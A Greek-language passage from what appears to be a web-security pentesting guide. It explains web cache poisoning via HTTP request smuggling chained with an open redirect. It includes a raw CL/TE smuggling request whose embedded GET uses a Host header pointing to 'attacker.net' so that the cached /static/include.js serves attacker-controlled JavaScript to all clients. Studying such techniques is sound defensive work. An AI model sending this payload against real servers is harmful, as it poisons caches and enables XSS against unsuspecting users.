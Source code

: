 ### Εκμεταλλευόμενοι τη Δηλητηρίαση της Προσωρινής Μνήμης του Web μέσω της Κλοπής HTTP Αιτημάτων <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

Η δηλητηρίαση της προσωρινής μνήμης του web μπορεί να εκτελεστεί εάν οποιοδήποτε στοιχείο της υποδομής **μπροστινού τελευταίου σταδίου αποθηκεύει περιεχόμενο**, τυπικά για να βελτιώσει την απόδοση. Με τη χειραγώγηση της απάντησης του διακομιστή, είναι δυνατόν να **δηλητηριαστεί η προσωρινή μνήμη**.

Προηγουμένως, παρατηρήσαμε πώς οι απαντήσεις του διακομιστή θα μπορούσαν να τροποποιηθούν για να επιστρέψουν ένα σφάλμα 404 (ανατρέξτε στα [Βασικά Παραδείγματα](./#basic-examples)). Με παρόμοιο τρόπο, είναι εφικτό να εξαπατηθεί ο διακομιστής ώστε να παραδώσει περιεχόμενο `/index.html` αντί για ένα αίτημα για `/static/include.js`. Ως αποτέλεσμα, το περιεχόμενο του `/static/include.js` αντικαθίσταται στην προσωρινή μνήμη με αυτό του `/index.html`, καθιστώντας το `/static/include.js` μη προσβάσιμο για τους χρήστες, πιθανώς οδηγώντας σε μια Αρνηση Υπηρεσίας (DoS).

Αυτή η τεχνική γίνεται ιδιαίτερα ισχυρή εάν ανακαλυφθεί μια **ευπάθεια Ανοικτής Ανακατεύθυνσης** ή αν υπάρχει μια **επανακατεύθυνση σε μια ανοικτή ανακατεύθυνση στον ιστότοπο**. Τέτοιες ευπάθειες μπορούν να εκμεταλλευτούνται για να αντικατασταθεί το προσωρινά αποθηκευμένο περιεχόμενο του `/static/include.js` με ένα σενάριο υπό τον έλεγχο του επιτιθέμενου, ενεργοποιώντας ουσιαστικά μια ευρεία επίθεση Cross-Site Scripting (XSS) εναντίον όλων των πελατών που ζητούν το ενημερωμένο `/static/include.js`.

Παρακάτω παρουσιάζεται μια εικόνα της εκμετάλλευσης **δηλητηρίασης της προσωρινής μνήμης σε συνδυασμό με μια επανακατεύθυνση σε ανοικτή ανακατεύθυνση στον ιστότοπο**. Ο στόχος είναι να τροποποιηθεί το περιεχόμενο της προσωρινής μνήμης του `/static/include.js` για να παρέχει κώδικα JavaScript που ελέγχεται από τον επιτιθέμενο:
```
POST / HTTP/1.1
Host: vulnerable.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 124
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: attacker.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```
Σημειώστε το ενσωματωμένο αίτημα που στοχεύει στο `/post/next?postId=3`. Αυτό το αίτημα θα ανακατευθυνθεί στο `/post?postId=4`, χρησιμοποιώντας την τιμή της **κεφαλίδας Host** για να προσδιορίσει τον τομέα. Αλλάζοντας την **κεφαλίδα Host**, ο επιτιθέμενος μπορεί να ανακατευθύνει το αίτημα στον δικό του τομέα (**επανακατεύθυνση στον τόπο για ανοικτή ανακατεύθυνση**).

Μετά από επιτυχή **δηλητηρίαση socket**, ένα **GET αίτημα** για `/static/include.js` θα πρέπει να ξεκινήσει. Αυτό το αίτημα θα έχει μολυνθεί από το προηγούμενο αίτημα **επανακατεύθυνσης στον τόπο για ανοικτή ανακατεύθυνση** και θα ανακτήσει το περιεχόμενο του script που ελέγχεται από τον επιτιθέμενο.
